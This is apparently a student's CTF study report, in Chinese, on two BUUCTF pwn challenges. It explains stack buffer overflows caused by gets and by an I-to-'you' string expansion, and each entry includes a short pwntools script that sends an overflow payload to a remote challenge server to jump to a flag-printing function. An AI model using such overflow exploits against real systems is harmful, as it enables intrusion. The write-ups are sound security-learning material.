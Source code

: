 # 翟一鸣学习报告01
# ciscn_2019_n_1

64位，动态链接，NX打开

![image-20220313004232056](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850118.png)

func函数里有gets，跳到　`system("cat /flag")`　溢出写上即可

![image-20220313004425668](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850934.png)

![image-20220313004429794](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850070.png)

编写脚本

```python
from pwn import * 
io = remote("node4.buuoj.cn",25179)

ret_addr = 0x400501
cat_flag = 0x4006BE
payload = cyclic(0x38) + p64(ret_addr) + p64(cat_flag)
io.sendline(payload)
io.interactive()
```

# *pwn1_sctf_2016

32位，动态链接，NX打开

![image-20220313004921662](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850694.png)

造成溢出的函数较长，看WP前没太看懂函数功能，后面运行试了一下，发现是将输入的字符Ｉ全部转换成字符转you，然后传入ｓ中，虽然向ｓ中写入的字符串长度为32，但变换后就可以造成溢出

![image-20220313005104588](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850839.png)

![image-20220313005109181](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191850872.png)

编写脚本

```python
from pwn import *
io = remote("node4.buuoj.cn",26227)

get_flag = 0x8048F0D
ret_addr = 0x08048ba2
payload = b'I'*20 + b'A'*4 + p32(ret_addr) + p32(get_flag)
io.sendline(payload)
io.interactive()
```
